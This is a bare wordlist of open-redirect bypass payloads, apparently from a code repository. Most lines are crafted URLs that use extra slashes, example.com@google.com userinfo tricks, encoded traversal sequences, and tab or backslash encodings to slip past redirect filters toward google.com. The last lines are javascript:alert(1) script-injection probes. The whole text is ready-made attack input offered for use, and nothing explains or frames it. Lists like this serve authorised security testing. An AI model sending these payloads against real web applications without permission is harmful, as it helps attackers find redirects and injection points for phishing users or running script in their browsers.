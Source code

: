 ////google.com//
////example.com@google.com//
https://google.com//
https://example.com@google.com//
//https://google.com//
//https://example.com@google.com//
//google.com/%2e%2e%2f
//example.com@google.com/%2e%2e%2f
///google.com/%2e%2e%2f
///example.com@google.com/%2e%2e%2f
////google.com/%2e%2e%2f
////example.com@google.com/%2e%2e%2f
https://google.com/%2e%2e%2f
https://example.com@google.com/%2e%2e%2f
//https://google.com/%2e%2e%2f
//https://example.com@google.com/%2e%2e%2f
///google.com/%2e%2e
///example.com@google.com/%2e%2e
////google.com/%2e%2e
////example.com@google.com/%2e%2e
https:///google.com/%2e%2e
https:///example.com@google.com/%2e%2e
//https:///google.com/%2e%2e
//example.com@https:///google.com/%2e%2e
/https://google.com/%2e%2e
/https://example.com@google.com/%2e%2e
///google.com/%2f%2e%2e
///example.com@google.com/%2f%2e%2e
////google.com/%2f%2e%2e
////example.com@google.com/%2f%2e%2e
https:///google.com/%2f%2e%2e
https:///example.com@google.com/%2f%2e%2e
/https://google.com/%2f%2e%2e
/https://example.com@google.com/%2f%2e%2e
/https:///google.com/%2f%2e%2e
/https:///example.com@google.com/%2f%2e%2e
/%09/google.com
/%09/example.com@google.com
//%09/google.com
//%09/example.com@google.com
///%09/google.com
///%09/example.com@google.com
////%09/google.com
////%09/example.com@google.com
https://%09/google.com
https://%09/example.com@google.com
/%5cgoogle.com
/%5cexample.com@google.com
//%5cgoogle.com
//%5cexample.com@google.com
///%5cgoogle.com
///%5cexample.com@google.com
////%5cgoogle.com
////%5cexample.com@google.com
https://%5cgoogle.com
https://%5cexample.com@google.com
/https://%5cgoogle.com
/https://%5cexample.com@google.com
https://google.com
https://example.com@google.com
javascript:alert(1);
javascript:alert(1)
//javascript:alert(1);
/javascript:alert(1);